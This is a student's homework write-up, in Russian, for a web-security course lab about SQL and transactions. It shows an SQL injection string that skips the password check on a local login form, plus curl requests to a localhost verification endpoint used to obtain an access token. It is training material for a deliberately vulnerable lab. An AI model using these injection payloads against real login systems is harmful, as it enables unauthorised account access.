 # 05.03.01. SQL и транзакции - Лебедев Д.С.
https://github.com/netology-code/ibweb-homeworks/blob/master/03_sql/README.md

[Задание .pdf](_att/050301/050301_Домашнее%20задание%20к%20занятию%20«1.3.%20SQL%20и%20транзакции».pdf)
### Задание «Логин и пароль»

1. После запуска контейнера смотрим логи БД в реальном времени, команда `docker logs -f 050301-db-1`. При попытке авторизации с известным логином и рандомным паролем в логах появляется:

![](_att/050301/050301-01-01.png)  

Теперь известна точная структура SQL-запроса:
- Таблица: users
- Поля: login, password, removed
- Пароль хранится в хешированном виде
- Дополнительное условие: removed = FALSE

2. Готовим SQL-инъекцию с любым паролем:

```
sasha' AND removed = FALSE --
```

Результат - SQL-инъекция успешно обошла проверку пароля:

![](_att/050301/050301-01-02.png)  

Система:
- Приняла инъекцию
- Нашла пользователя sasha
- Пропустила проверку пароля
- Сгенерировала код подтверждения `7002`
- Перевела на следующий экран с подтверждением кода

### Код подтверждения*

Браузер при вводе кода `7002` (получен в первом задании) отправляет данные:

```sh
curl 'http://localhost:8888/api/auth/verification' \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate, br, zstd' \
  -H 'Referer: http://localhost:8888/verification' \
  -H 'Content-Type: application/json' \
  -H 'Origin: http://localhost:8888' \
  -H 'Connection: keep-alive' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Priority: u=0' \
  --data-raw $'{"login":"sasha\' AND removed = FALSE --","code":"7002"}'
```

Модифицируем запрос для обхода проверки кода:

```sh
curl 'http://localhost:9999/api/auth/verification' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"login":"sasha","code":"7002"}'
```

Итог - cURL запрос, который позволяет получить токен доступа без знания кода верификации:

![](_att/050301/050301-01-03.png)

---
